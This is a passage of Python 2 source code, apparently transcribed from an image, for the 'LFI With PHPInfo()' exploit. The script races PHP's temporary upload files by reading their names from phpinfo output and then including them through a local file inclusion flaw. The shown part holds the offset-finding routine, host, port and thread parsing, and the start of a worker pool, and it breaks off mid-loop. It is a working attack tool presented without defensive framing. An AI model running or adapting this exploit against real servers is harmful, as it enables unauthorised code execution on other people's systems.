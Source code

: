 ```
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
```